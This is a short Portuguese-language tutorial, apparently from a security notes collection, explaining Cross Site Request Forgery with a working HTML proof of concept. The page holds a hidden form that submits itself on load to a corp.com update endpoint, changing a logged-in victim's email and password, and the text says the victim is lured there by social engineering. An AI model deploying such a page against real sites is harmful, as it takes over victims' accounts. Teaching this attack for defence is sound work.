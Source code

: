 Cross Site Request Forgery se refere a quando forjamos uma requisição do alvo através de um site de nosso controle. Então seria necessário um pouco de engenharia social para executarmos esse ataque, pois iremos precisar que a vítima acesse o nosso link/site.

Caso a vítima estivesse logada em algum serviço ela teria em tese os cookies necessários para fazermos requisições em seu nome.

### Cenário
```html
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>Document</title>
</head>
<body>
    <form action="https://corp.com/update/?action=update" method="post" id="csrf">
        <input type="hidden"name="email" value="admin@admin">
        <input type="hidden"name="password" value="novasenha@123">
    </form>

    <script>
        document.getElementById("csrf").submit()
    </script>
</body>
</html>
```
Com esse código, ao ser carregado, fará uma requisição post para o endpoint `corp.com/update` com o parâmetro `action=update`.

Contudo, o formulário tem de ser similar ao original, para poder enviar os dados necessários e o nome dos parâmetros serem compatíveis.
